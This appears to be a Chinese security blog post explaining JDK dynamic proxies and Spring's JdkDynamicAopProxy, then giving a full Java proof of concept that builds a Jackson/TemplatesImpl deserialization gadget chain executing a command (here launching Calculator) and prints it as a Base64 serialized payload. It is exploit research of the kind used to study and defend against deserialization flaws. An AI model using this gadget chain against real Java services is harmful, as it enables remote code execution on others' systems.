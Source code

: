 # JDK动态代理-AOP

  
  
&lt;!--more--&gt;  
## 0x00 前言  
在Java中动态代理是很强大的，被代理对象所能调用的方法取决于我们所给的接口，其功能取决于我们所给的`handler`。  
## 0x01 原理分析  
JDK动态代理需要了解两个类  
- `InvocationHandler`调用处理程序类和`Proxy`代理类  

`InvocationHandler`调用处理程序  
`public interface InvocationHandler`  
`InvocationHandler`是由代理实例的调用处理程序实现的接口  
每个代理实例都有一个关联的调用处理程序。  
`Object invoke(Object proxy,Method Method,Object[] args)`  
当在代理实例上调用方法的时候。会分派到其调用处理程序的`invoke()`方法  
`Proxy`代理类  
`public class Proxy extends Object implements Serializable`  
`Proxy`提供了创建动态代理类和实例的静态方法，它也是由这些方法创建的所有动态代理类的超类。  
动态代理类，是一个实现在类创建时在运行时指定的接口列表的类，具有如下所述的行为。 代理接口是由代理类实现的接口。 代理实例是代理类的一个实例。  
```  
public static Object newProxyInstance(ClassLoader loader, Class&lt;?&gt;[] interfaces, InvocationHandler h) throws IllegalArgumentException  
```  
demo  
```java  
import java.lang.reflect.InvocationHandler;  
import java.lang.reflect.Method;  
import java.lang.reflect.Proxy;  
  
public class JDKProxy {  
    public static void main(String[] args) {  
        Object myProxy = Proxy.newProxyInstance(MyProxy.class.getClassLoader(), new Class[]{MyInterface1.class,MyInterface2.class}, new MyHandler());  
        for(Method m:myProxy.getClass().getDeclaredMethods()){  
            System.out.println(m.getName());  
        }  
    }  
}  
  
interface MyInterface1 {  
    public void sayYes();  
}  
  
interface MyInterface2 {  
    public void sayNo();  
}  
  
class MyProxy{  
    public void eat(){  
        System.out.println(&#34;eat&#34;);  
    }  
    public void say() {  
        System.out.println(&#34;say something&#34;);  
    }  
    public String getName(String a) {  
        return a;  
    }  
}  
class MyHandler implements InvocationHandler {  
    @Override  
    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {  
        System.out.println(&#34;invoke dynamic proxy handler&#34;);  
        return null;  
    }  
}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504060118523.png)
其反射获得到的方法完全是根据接口来的，不管被代理的类是否实现了对应的方法。动态代理中方法的实现都方法在了`handler`中的`invoke`方法中了，调用其任意方法都会在`invoke`方法中执行，所以看所给的接口和`handler`就可以了。  
而`javax.xml.transform.Templaes`接口其只有`newTransformer`和`getOutputProperties`这两个方法，让其作为我们代理所需要的接口，这样最终通过`getDeclaredMethods`获取到的方法就只有`newTransformer`和`getOutputProperties`了，最终获得的`getter`方法便只有`getOutputProperties`了。  
所以我们需要找一个`handler`，他的`invoke`方法中能执行我们所调用的方法即可。  
在`JdkDynamicAopProxy`是`Spring`框架中的一个类，它实现了JDK动态代理机制，用于创建代理对象来实现面向切面编程(AOP)的功能。  
`org.springframework.aop.framework.JdkDynamicAopProxy`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504060130546.png)
重点看`invoke()`函数  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504060131860.png)
这里会执行所调用的`method`，`target`获取到的对象是由`advised`属性得到的，我们所需要的`TemplatesImpl`的对象用`org.springframework.aop.framework.AdvisedSupport`封装。  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504060133565.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504060133143.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504060134674.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504060135608.png)
构造`templatesImpl`封装一下  
```java  
Class&lt;?&gt; clazz = Class.forName(&#34;org.springframework.aop.framework.JdkDynamicAopProxy&#34;);    
Constructor&lt;?&gt; constructor = clazz.getConstructor(AdvisedSupport.class);    
constructor.setAccessible(true);    
AdvisedSupport advisedSupport = new AdvisedSupport();    
advisedSupport.setTargetClass(templatesImpl);    
InvocatioHandler handler = (InvokeHandler) constructor.newInstance(advisedSupport);    
Object proxyObj = Proxy.newProxyInstance(clazz.getClassLoader(), new Class[]{Templates.class}, handler);    
POJONode jsonNodes = new POJONode(proxyObj);  
```  
## 稳定Payload  
```java  
import com.fasterxml.jackson.databind.node.POJONode;    
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;    
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;    
import javassist.*;    
import org.springframework.aop.framework.AdvisedSupport;    
import javax.management.BadAttributeValueExpException;    
import javax.xml.transform.Templates;    
import java.io.*;    
import java.lang.reflect.*;    
import java.util.Base64;    
    
public class Poc {    
    public static void main(String[] args) throws Exception {    
        ClassPool pool = ClassPool.getDefault();    
        CtClass ctClass0 = pool.get(&#34;com.fasterxml.jackson.databind.node.BaseJsonNode&#34;);    
        CtMethod writeReplace = ctClass0.getDeclaredMethod(&#34;writeReplace&#34;);    
        ctClass0.removeMethod(writeReplace);    
        ctClass0.toClass();    
    
        CtClass ctClass = pool.makeClass(&#34;a&#34;);    
        CtClass superClass = pool.get(AbstractTranslet.class.getName());    
        ctClass.setSuperclass(superClass);    
        CtConstructor constructor = new CtConstructor(new CtClass[]{},ctClass);    
        constructor.setBody(&#34;Runtime.getRuntime().exec(\&#34;open -a Calculator\&#34;);&#34;);    
        ctClass.addConstructor(constructor);    
        byte[] bytes = ctClass.toBytecode();    
    
        Templates templatesImpl = new TemplatesImpl();    
        setFieldValue(templatesImpl, &#34;_bytecodes&#34;, new byte[][]{bytes});    
        setFieldValue(templatesImpl, &#34;_name&#34;, &#34;test&#34;);    
        setFieldValue(templatesImpl, &#34;_tfactory&#34;, null);    
        //利用 JdkDynamicAopProxy 进行封装使其稳定触发    
        Class&lt;?&gt; clazz = Class.forName(&#34;org.springframework.aop.framework.JdkDynamicAopProxy&#34;);    
        Constructor&lt;?&gt; cons = clazz.getDeclaredConstructor(AdvisedSupport.class);    
        cons.setAccessible(true);    
        AdvisedSupport advisedSupport = new AdvisedSupport();    
        advisedSupport.setTarget(templatesImpl);    
        InvocationHandler handler = (InvocationHandler) cons.newInstance(advisedSupport);    
        Object proxyObj = Proxy.newProxyInstance(clazz.getClassLoader(), new Class[]{Templates.class}, handler);    
        POJONode jsonNodes = new POJONode(proxyObj);    
    
        BadAttributeValueExpException exp = new BadAttributeValueExpException(null);    
        Field val = Class.forName(&#34;javax.management.BadAttributeValueExpException&#34;).getDeclaredField(&#34;val&#34;);    
        val.setAccessible(true);    
        val.set(exp,jsonNodes);    
    
        ByteArrayOutputStream barr = new ByteArrayOutputStream();    
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(barr);    
        objectOutputStream.writeObject(exp);    
        objectOutputStream.close();    
        String res = Base64.getEncoder().encodeToString(barr.toByteArray());    
        System.out.println(res);    
    
    }    
    private static void setFieldValue(Object obj, String field, Object arg) throws Exception{    
        Field f = obj.getClass().getDeclaredField(field);    
        f.setAccessible(true);    
        f.set(obj, arg);    
    }    
}  
```  

---

> Author: N1Rvana  
> URL: http://localhost:1313/jdk%E5%8A%A8%E6%80%81%E4%BB%A3%E7%90%86-aop/  

